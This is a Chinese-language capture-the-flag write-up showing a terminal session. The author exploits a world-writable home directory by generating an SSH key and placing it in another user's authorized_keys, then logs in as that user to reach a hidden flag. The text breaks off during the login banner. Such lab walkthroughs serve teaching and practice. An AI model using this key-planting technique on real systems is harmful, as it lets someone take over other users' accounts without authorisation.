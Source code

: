 Professor Hulk requires a flag hidden in `tony`'s account to wield the infinity gauntlet. Retrieve it for him by any means necessary.

我们在上一道题目中发现服务器是开了 ssh 的，在这道题会派上很大的用场。我们尝试进到 tony 的家目录：

```bash
steve@e2797a47d8f5:~$ cd /home/tony
steve@e2797a47d8f5:/home/tony$ ls -la
total 24
drwxrwxrwx 1 tony root 4096 Mar 29 15:30 .
drwxr-x--x 1 root root 4096 Mar 29 15:30 ..
-rw-r--r-- 1 tony root  220 Mar 29 15:30 .bash_logout
-rw-r--r-- 1 tony root 3771 Mar 29 15:30 .bashrc
---------- 1 tony root   38 Mar 29 15:28 .flag
-rw-r--r-- 1 tony root  807 Mar 29 15:30 .profile
steve@e2797a47d8f5:/home/tony$ touch anything
steve@e2797a47d8f5:/home/tony$ ls
anything
```

看到了一个 `.flag` 文件，很有可能就是我们要找的 flag。然而所属用户是 tony，我们需要想办法变成 tony。因为本地是开了 ssh 的，我们可以在 steve 的家目录生成 ssh 密钥和公钥，并将公钥复制到 `/home/tony/.ssh/authorized_keys` 中，这样我们如果从本地 ssh 访问 tony 就不需要输入密码了。可以把用户变成 tony：

```bash
steve@e2797a47d8f5:/home/tony$ mkdir .ssh
steve@e2797a47d8f5:/home/tony$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/steve/.ssh/id_rsa):
Created directory '/home/steve/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/steve/.ssh/id_rsa.
Your public key has been saved in /home/steve/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:Dy7aH7T8rwupoal6mTAT/uFk2kL0ZoMRp5NNAirlxq4 steve@e2797a47d8f5
The key's randomart image is:
+---[RSA 2048]----+
|o .              |
|.* o             |
|o %              |
|oO .             |
|o.*     S        |
|+= O   + =       |
|E+Xoo o B .      |
| o++ = + +       |
|.oo.+ o.. ++.    |
+----[SHA256]-----+
steve@e2797a47d8f5:/home/tony$ ls ~/.ssh
id_rsa  id_rsa.pub
steve@e2797a47d8f5:/home/tony$ cat ~/.ssh/id_rsa.pub >.ssh/authorized_keys
steve@e2797a47d8f5:/home/tony/.ssh$ cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzOsnxC56QPjbS2Glioff2IO/z/eTpRkOPqNv0qxzRvcwIJpOom8GHU6ae7VOs4466EIUbxIO1oK3xV81CrfCOITUcZ0WCYohVUfY1w0MM65ILQ4SGUdhNiVP9dnu8N/RVfIrcs9dc4Wlb+KixmgURhW9bX6F5As+7iHqCiqpsDN4fyq78lC9ci+Rgg9fgVkboSeMIiqaUK/Ww0W7lwe0mGm4UaTc94CSQRdRrnOutDNKFeLXYl46s+V7pHtFrmSaYZoNI09IkllWcaA4WYlXdGD8qHGwpkptCUjgufkl1e2DetLNTeuwtbj4DhY7af1r9+Vdaa089yeGrgAemgyo9 steve@e2797a47d8f5
steve@e2797a47d8f5:/home/tony/.ssh$ ssh -i ~/.ssh/id_rsa tony@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:n6A8y008mc7HfJYLy8Fw7nexXjofQ8J/ZOQmEtk2TX0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-1032-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
```